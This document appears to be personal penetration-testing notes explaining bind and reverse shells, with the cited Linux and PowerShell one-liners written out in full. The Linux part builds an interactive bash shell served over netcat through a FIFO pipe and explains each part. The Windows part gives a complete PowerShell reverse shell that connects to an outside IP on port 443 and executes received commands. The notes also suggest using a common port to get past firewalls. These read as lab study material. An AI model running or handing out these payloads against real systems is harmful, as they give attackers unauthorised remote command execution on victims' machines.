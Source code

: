 # Shells explained
> Want to use a common port so firewall doesn't block it

https://pentest.ws/tools/shells

## Linux Shells  
**Bind Shell**

On client:  
`nc -nv 10.129.41.200 7777`

On victim machine:  
`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`

#### Explanation of the above: 
Parts will be segmented by code before semicolon.  

Part 1: Removes /tmp/f  Semi colon executes command sequentially   
Part 2: Makes a FIFO named pipe at the location. /tmp/f is the fifo named pipe file  
Part 3: Concatenates the FIFO named pipe  
Part 4: Concatenates the FIFO named pipe file /tmp/f, the pipe (`|`) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (`|`).
Part 5: Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard input data stream (1) are redirected to the command following the pipe (|).
Part 6: Starts a nc listener and output is redirected to /tmp/f, serving the bash shell to whoever connects to the network socket.  


## Windows Shells
**Reverse Shells**

On client:  
`nc -nv 10.129.41.200 7777`

On victim machine:  
`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`